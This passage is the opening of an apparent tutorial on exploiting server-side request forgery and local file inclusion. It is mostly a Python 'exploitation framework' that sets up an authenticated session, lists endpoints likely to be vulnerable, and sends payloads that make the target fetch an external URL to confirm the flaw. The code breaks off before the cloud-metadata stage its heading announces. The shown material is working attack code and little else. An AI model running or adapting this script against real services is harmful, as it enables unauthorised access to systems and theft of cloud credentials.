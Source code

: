 
## Tutorial 5: SSRF and LFI Exploitation

### Phase 1: SSRF Discovery and Cloud Metadata Exploitation

```python
#!/usr/bin/env python3
"""
SSRF and LFI Exploitation Framework
"""

import requests
import json
import time
import socket
import threading
from urllib.parse import quote, urljoin
import base64

class SSRFLFIExploitationFramework:
    def __init__(self, base_url, auth_token):
        self.base_url = base_url
        self.auth_token = auth_token
        self.session = requests.Session()
        self.session.headers.update({'Authorization': f'Bearer {auth_token}'})
        
    def discover_ssrf_endpoints(self):
        """Discover potential SSRF vulnerable endpoints"""
        print("\n[+] Discovering SSRF vulnerable endpoints...")
        
        # Common SSRF-prone endpoints
        test_endpoints = [
            {'url': '/api/users/avatar', 'method': 'POST', 'param': 'imageUrl', 'trigger_param': 'fetchFromUrl'},
            {'url': '/api/tasks/import', 'method': 'POST', 'param': 'importUrl'},
            {'url': '/api/webhook/callback', 'method': 'POST', 'param': 'url'},
            {'url': '/api/proxy/fetch', 'method': 'POST', 'param': 'target'},
            {'url': '/api/reports/generate', 'method': 'POST', 'param': 'dataSource'},
            {'url': '/api/integrations/test', 'method': 'POST', 'param': 'endpoint'}
        ]
        
        vulnerable_endpoints = []
        
        # Test with external service to confirm SSRF
        test_url = "http://httpbin.org/ip"
        
        for endpoint in test_endpoints:
            print(f"  Testing {endpoint['method']} {endpoint['url']}")
            
            try:
                payload = {endpoint['param']: test_url}
                
                # Add trigger parameter if specified
                if 'trigger_param' in endpoint:
                    payload[endpoint['trigger_param']] = True
                
                response = self.session.request(
                    endpoint['method'],
                    f"{self.base_url}{endpoint['url']}",
                    json=payload,
                    timeout=10
                )
                
```